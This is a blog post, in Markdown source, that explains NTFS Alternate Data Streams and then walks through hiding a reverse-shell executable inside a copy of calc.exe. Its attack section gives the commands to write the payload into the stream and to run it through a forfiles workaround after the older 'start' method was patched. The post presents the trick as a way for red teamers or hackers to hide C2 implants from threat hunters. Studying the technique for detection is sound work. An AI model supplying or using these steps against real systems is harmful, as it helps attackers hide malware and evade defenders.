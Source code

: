 ```yaml
---
layout: post
title: Hiding Malware with NTFS ADS – Windows Patching Bypass && Stealth Mode
---
```

![](/images/2022-10-20-ads/0.png)

# What is ADS
An Alternate Data Stream is a little-known feature of the NTFS file system. It has the ability of forking data into an existing file without changing its file size or functionality.
Simply put, File inside another File

# BENEFITS OF ADS

Windows Resource Manager leverages ADS to identify high risk files that shouldn’t be accessed.
The Windows operating system uses ADS to encrypt and store files in a secure manner.
Citrix’s virtual memory uses ADS to boost DLL loading speed.
Anti-virus applications use ADS to enhance the scanning of files etc.

# How does ADS work ? 

Before we do malicious things with it, I want to show you simple examples of using ADS with text files.

Let’s create a simple txt file with some content in it and note the file size: 23 bytes


![](/images/2022-10-20-ads/1.png)

Now let’s use ADS to hide/ put another file or content in the file

![](/images/2022-10-20-ads/2.png)

As you can see above, the file size remained the same and no changes were made to the f1.txt file.

Let’s try to access the hidden file:

![](/images/2022-10-20-ads/3.png)

As you can see above, we got an error message saying the file does not exist.

So, how do we access the file and the file inside the file? 

We have to use “more” command to get the hidden content:

![](/images/2022-10-20-ads/4.png)

# From a Hackers Eyes

Now let’s get evil with this, as you guessed, this comes with security risks, an attacker can easily store malicious codes and use them to cause damages to your system.
Let’s get to work:

Step one is to create your malware, in this case I created an executable (evil.exe) that calls back Metasploit with a reverse shell.

I copied calc.exe from C:\WINDOWS\system32\calc.exe into the current directory (if someone try to execute the calc.exe, it will open up the calculator)



![](/images/2022-10-20-ads/5.png)


![](/images/2022-10-20-ads/6.png)

Now let’s put the evil.exe (reverse shell malware) into the legitimate calc.exe 

```
type evil.exe > calc.exe:evil.exe
```
As you see below, the file size of the calc.exe remained same after putting evil.exe 


![](/images/2022-10-20-ads/7.png)

Now, the older way of executing the evil.exe within calc.exe was with the command:
```
start calc.exe:evil.exe
```

![](/images/2022-10-20-ads/8.png)

This issue is well known and Microsoft patched it, so the malware doesn’t get executed!

But hackers always get around controls, so instead of using start command to execute the application, we can do a work around that will get the malware executed within the calc.exe 

```
forfiles /P C:\Windows\System32 /m calc.exe /c "C:\Users\san3n\Documents\calc.exe:evil.exe"
```

![](/images/2022-10-20-ads/9.png)

As you can see, the malware got executed and we gained a reverse shell! This is a good technique for red teamers or hacker who are trying to hide their c2 implants or payloads for threat hunters or SoC analysts!

WooT wOOt

